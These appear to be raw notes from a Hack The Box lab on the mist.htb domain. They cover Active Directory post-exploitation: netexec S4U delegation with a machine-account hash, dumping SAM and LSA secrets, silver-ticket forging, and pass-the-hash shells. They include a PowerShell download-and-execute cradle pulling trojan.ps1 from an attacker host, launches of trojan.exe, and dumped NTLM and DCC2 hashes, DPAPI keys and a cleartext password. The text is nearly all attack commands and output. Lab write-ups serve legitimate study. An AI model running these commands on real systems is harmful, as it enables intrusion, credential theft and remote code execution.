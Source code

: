 # MS01 dump with machine account delegation

proxychains4  netexec smb 192.168.100.101 -u 'ms01$' -H 4a74fc05400345d580cf58aec3e6d833 --self  --delegate 'administrator' -x 'C:\xampp\htdocs\trojan.exe'


proxychains4  netexec smb 192.168.100.101 -u 'ms01$' -H 4a74fc05400345d580cf58aec3e6d833 --self  --delegate 'administrator' --sam -X "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.14:8890/ams');IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.14:8890/trojan.ps1');"
[proxychains] config file found: /opt/homebrew/etc/proxychains.conf
[proxychains] preloading /opt/homebrew/Cellar/proxychains-ng/4.17/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.101:135  ...  OK
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MS01.mist.htb:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MS01.mist.htb:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MIST.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MIST.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.100:88  ...  OK
SMB         192.168.100.101 445    MS01             [+] mist.htb\administrator through S4U with ms01$ (Pwn3d!)
SMB         192.168.100.101 445    MS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:711e6a685af1c31c4029c3c7681dd97b:::
SMB         192.168.100.101 445    MS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.100.101 445    MS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.100.101 445    MS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:90f903787dd064cc1973c3aa4ca4a7c1:::
SMB         192.168.100.101 445    MS01             svc_web:1000:aad3b435b51404eeaad3b435b51404ee:76a99f03b1d2656e04c39b46e16b48c8:::

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:711e6a685af1c31c4029c3c7681dd97b:::
> svc_web:1000:aad3b435b51404eeaad3b435b51404ee:76a99f03b1d2656e04c39b46e16b48c8:


SMB         192.168.100.101 445    MS01             MIST.HTB/Brandon.Keywarp:$DCC2$10240#Brandon.Keywarp#5f540c9ee8e4bfb80e3c732ff3e12b28: (2024-04-04 10:18:58)
SMB         192.168.100.101 445    MS01             MIST.HTB/op_Sharon.Mullard:$DCC2$10240#op_Sharon.Mullard#9dc24204e1e111afb23435119651a1e0: (2024-04-04 08:20:15)
SMB         192.168.100.101 445    MS01             MIST\MS01$:plain_password_hex:05026d28f0211624b80e3d04c599ea354667703a1ec85f78c0f38461197626bc4559dfd5185954984799ec09048e8e6a918c5fb423814d50fedc3c62631450d8439ba072994bf4aad5311fa4055f410e0ee6b5b849b33e62ff0f7af03b1a7787287bb6b5987096a3d3240b05f2241d6144900c0071b48419bde5cb38ab24e8977f64ceb09d0efeea7de1501c041504fb4742bd40403ae30589ca354c71684607c8a36f86a6f1df40abb3e45f4265fa1aef2339f85f40e32b74a3a1ec173c1dfce0528977aafeac71ba97e95826e3d31f0aeb3d67a04efcd4740cc38a94c64f585c5f0047c728f6061174f7d5e6215eb9
SMB         192.168.100.101 445    MS01             MIST\MS01$:aad3b435b51404eeaad3b435b51404ee:4a74fc05400345d580cf58aec3e6d833:::
SMB         192.168.100.101 445    MS01             
dpapi_machinekey:0xe464e18478cf4a7d809dfc9f5d6b5230ce98779b
dpapi_userkey:0x579d7a06798911d322fedc960313e93a71b43cc2
SMB         192.168.100.101 445    MS01             NL$KM:57c8f7cd24f255eb191d07c2158421b0907c793cd5becfacef404f8e2a763f000487df47cfd8b7af6d5eee9f165e75f38024aa24b07d3c294fea4e4afb264e62
SMB         192.168.100.101 445    MS01             svc_web:MostSavagePasswordEver123

die 
```
proxychains4 getTGT.py mist.htb/'ms01$' -hashes :4a74fc05400345d580cf58aec3e6d833 -dc-ip 192.168.100.100  

ticketer.py -spn 'cifs/ms01.mist.htb' -nthash '4a74fc05400345d580cf58aec3e6d833' -debug -domain 'mist.htb' -domain-sid 'S-1-5-21-1045809509-3006658589-2426055941' 'Administrator'

export KRB5CCNAME=administrator.ccache
proxychains4 wmiexec.py -k -no-pass ///
```

## Rce with winrm (proxied)

> proxychains4 evil-winrm -i 192.168.100.101 -u 'administrator' --hash 711e6a685af1c31c4029c3c7681dd97b 

cd C:\xampp\htdocs;.\trojan.exe

> getsystem -t 4